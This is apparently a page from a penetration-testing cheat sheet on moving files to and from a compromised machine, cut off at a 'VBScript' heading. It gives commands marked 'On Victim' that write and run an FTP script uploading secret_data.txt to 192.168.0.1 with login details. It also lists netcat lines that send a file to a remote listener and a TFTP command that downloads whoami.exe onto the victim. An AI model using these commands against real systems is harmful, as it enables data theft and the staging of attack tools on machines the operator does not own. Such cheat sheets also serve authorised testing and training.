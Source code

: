 Create FTP Script (On Victim)

```
echo open 192.168.0.1>> ftp.txt
echo USER myftpuser>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo put secret_data.txt>> ftp.txt
echo bye >> ftp.txt

```

Exectue Script (On Victim)

```
ftp -v -n -s:ftp.txt

```

## Netcat

Netcat

Receiving Shell

```
nc -l -p 1234 > out.file

```

Sending Shell

```
nc -w 3 192.168.0.1 1234 < out.file

```

## TFTP

TFTP

```
Start TFTP Daemon (Folder /var/tftp)
atftpd --daemon --port 69 /var/tftp

```

Transfer Files

```
tftp -i 192.168.0.1 GET whoami.exe

```

## VBScript

VBScript
